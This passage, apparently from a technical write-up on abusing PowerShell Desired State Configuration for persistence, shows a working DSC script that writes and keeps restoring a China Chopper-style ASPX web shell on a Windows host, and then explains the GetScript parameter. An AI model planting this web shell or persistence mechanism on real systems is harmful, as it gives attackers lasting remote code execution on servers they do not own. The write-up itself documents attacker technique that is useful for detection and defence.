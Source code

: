 
```PowerShell
configuration DSC_Config
{
    Node localhost
    {
        Script persistence_powershell
        {
            GetScript ={$true}
            SetScript = {
                Set-Content -Path 'C:\users\test\desktop\webshell.aspx' -Value '<%@ Page Language="Jscript"%><%eval(Request.Item[”pass"],"unsafe");%>'
            }
            TestScript = {
                return [System.IO.File]::Exists("C:\users\test\desktop\webshell.aspx")
            }
        }
    }
}

DSC_Config -outputpath C:\users\test\desktop\DSC
Start-DscConfiguration -Path C:\users\test\desktop\DSC -Force -ErrorAction Ignore
```
![Result_of_DSC_Config](https://github.com/salehmuhaysin/Desired_State_Configuration/blob/master/images/Result_of_DSC_Config.ps1.png?raw=true)\
**Figure 6**: Output of Running the PowerShell Script (DSC_Config.ps1) 


Again creating a configuration named **"DSC_Config"** and targeted machine **"localhost"**, inside the configuration, define the **Script** resource named **persistence_powershell**, the Script resource accept three parameters
#### GetScript: 
This parameter will not affect the persistence since DSC will not use it, however, this parameter will be used by the command ```Get-DscConfiguration``` to get the script information, for example, if we define the ```GetScript``` as following
```PowerShell
GetScript ={
    return @{Result = "China Chopper Webshell"} 
}
```
And executed the command ```Get-DscConfiguration```, we got the following result